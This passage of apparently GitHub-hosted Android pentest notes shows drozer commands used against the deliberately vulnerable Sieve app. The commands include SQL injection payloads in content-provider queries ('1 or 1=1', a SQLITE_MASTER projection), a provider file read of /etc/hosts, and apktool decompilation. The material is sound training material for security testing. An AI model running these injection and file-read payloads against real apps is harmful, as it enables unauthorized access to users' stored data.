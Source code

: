 ![image](https://github.com/user-attachments/assets/b4ce5082-6a67-461a-b71d-63f0821e23ee)

- Use module `scanner.provider.sqltables` to view the sql tables of a server.

Syntax-:```run scanner.provider.sqltables -a <identifier>```

![image](https://github.com/user-attachments/assets/30cf83d1-604c-44ad-a3f3-1e1b203a6754)

- Sql injection with module `app.provider.query`

Syntax-:`run app.provider.query <content uri> --projection "* FROM SQLITE_MASTER where type=’table’;--"`

![image](https://github.com/user-attachments/assets/2a6e7fff-05e4-45d0-a82a-a64d8deeda17)

- Trying a true statement

`run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Keys/ --selection "1 or 1=1"`

![image](https://github.com/user-attachments/assets/2a866298-b587-467c-b6ed-5996c50e69ab)

- In the sieve app, for example, we have a file backup provider that backs up various files from the storage. Now, if an attacker was to use this provider’s interface to view internal system files, it would be a critical vulnerability. In the following command, the same has been demonstrated.

Syntax-:`run app.provider.read content://com.mwr.example.sieve.FileBackupProvider/etc/hosts`

![image](https://github.com/user-attachments/assets/c2d807dd-1f7b-4a9b-ad9b-0963b11a6ea0)

--------------------

### REFERENCE-:

--------------------

- [HackingArticles](https://www.hackingarticles.in/android-penetration-testing-drozer/)

-------------------

### Decompiling apk files

------------------

- Apktool-:

`apktool d -rs <apk>`

------------------

### Converting dex files to jar files

------------------

- D2j-dex2jar-:
